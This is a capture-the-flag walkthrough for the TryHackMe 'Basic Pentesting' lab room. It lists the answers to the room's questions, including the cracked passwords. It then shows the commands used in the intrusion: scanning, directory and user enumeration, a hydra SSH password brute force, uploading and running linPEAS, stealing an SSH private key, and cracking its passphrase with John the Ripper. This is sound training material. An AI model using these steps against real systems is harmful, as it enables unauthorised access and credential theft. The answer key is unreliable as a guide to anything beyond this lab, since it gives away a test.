 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, gobuster, enum4linux, hydra, linPEAS, JohnTheRipper]
---
```

![Basic Pentesting](./assets/basicpentesting.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)

**Difficulty level:** Easy

> Add Markdown syntax

## Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

### Questions

Q1. What is the name of the hidden directory on the web server(enter name without /)?
```
development
```
Q2. What is the username?
```
jan
```
Q3. What is the password?
```
armando
```
Q4. What service do you use to access the server(answer in abbreviation in all caps)?
```
SSH
```
Q5. What is the name of the other user you found(all lower case)?
```
kay
```
Q6. What is the final password you obtain?
```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

### MyWalk

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```

Now I'll enumerate any directories available:

```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```

Users 'kay' and 'jan' found.

<span style="color:green;">Q2 & Q5 done</span>

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4

```
jan:armando <span style="color:green;">Q3 done</span>

Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:

```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:

```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):

```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```

Now run john with the key against the rockyou.txt:

```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay.

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```

Entering the paraphrase password 'beeswax' and success!  
Now is possible to read the pass.bak file and  
<span style="color:green;">Q6 done</span>

## Tools
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper